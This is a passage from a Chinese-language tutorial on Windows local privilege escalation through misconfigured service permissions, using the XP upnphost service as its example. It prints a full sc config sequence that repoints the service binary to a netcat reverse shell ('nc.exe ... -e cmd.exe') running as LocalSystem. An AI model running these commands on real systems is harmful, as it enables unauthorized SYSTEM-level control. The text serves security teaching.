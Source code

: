 ```
   RW BUILTINPower Users
         SERVICE_ALL_ACCESS
   RW NT AUTHORITYLOCAL SERVICE
         SERVICE_ALL_ACCESS
```

这个问题随后在XP SP2就被修复了。然而在SP0和SP1 ，它可以被用来作为通用的本地权限提升漏洞，通过对服务的重新配置，我们可以让它使用SYSTEM权限运行任何我们选择的可执行文件。

让我们看下在实践中是怎么做的，在这种情况下，这个服务将执行netcat并且使用SYSTEM权限反弹一个shell。

```
C:&gt; sc qc upnphost
 [SC] GetServiceConfig SUCCESS
 SERVICE_NAME: upnphost
         TYPE               : 20  WIN32_SHARE_PROCESS
         START_TYPE         : 3   DEMAND_START
         ERROR_CONTROL      : 1   NORMAL
         BINARY_PATH_NAME   : C:WINDOWSSystem32svchost.exe -k LocalService
         LOAD_ORDER_GROUP   :
         TAG                : 0
         DISPLAY_NAME       : Universal Plug and Play Device Host
         DEPENDENCIES       : SSDPSRV
         SERVICE_START_NAME : NT AUTHORITYLocalService
 C:&gt; sc config upnphost binpath= "C:nc.exe -nv 127.0.0.1 9988 -e C:WINDOWSSystem32cmd.exe"
 [SC] ChangeServiceConfig SUCCESS
 C:&gt; sc config upnphost obj= ".LocalSystem" password= ""
 [SC] ChangeServiceConfig SUCCESS
 C:&gt; sc qc upnphost
 [SC] GetServiceConfig SUCCESS
 SERVICE_NAME: upnphost
         TYPE               : 20  WIN32_SHARE_PROCESS
         START_TYPE         : 3   DEMAND_START
         ERROR_CONTROL      : 1   NORMAL
         BINARY_PATH_NAME   : C:nc.exe -nv 127.0.0.1 9988 -e C:WINDOWSSystem32cmd.exe
         LOAD_ORDER_GROUP   :
         TAG                : 0
         DISPLAY_NAME       : Universal Plug and Play Device Host
         DEPENDENCIES       : SSDPSRV
         SERVICE_START_NAME : LocalSystem
 C:&gt; net start upnphost
```

[![](https://p3.ssl.qhimg.com/t01976c23101ba3eee4.png)](https://p3.ssl.qhimg.com/t01976c23101ba3eee4.png)

我们不是总是对一个服务有完全的访问权限，尽管它被错误的配置了。下面的图是从Brett Moore's那里扒来的，任何一个下图的访问权限都将给我们一个SYSTEM权限的shell。

[![](https://p1.ssl.qhimg.com/t01adc4b069d317e934.png)](https://p1.ssl.qhimg.com/t01adc4b069d317e934.png)

记住我们目前的用户属于哪个用户组是很重要的，就像前面提到的“Power Users“,其实就是一个低权限的用户组。“Power Users”有它自己相关的一系列漏洞，Mark Russinovich曾经写过一篇关于“Power Users“的很有意思的文章。

[[The Power in Power Users (Mark Russinovich) – here]](http://blogs.technet.com/b/markrussinovich/archive/2006/05/01/the-power-in-power-users.aspx)
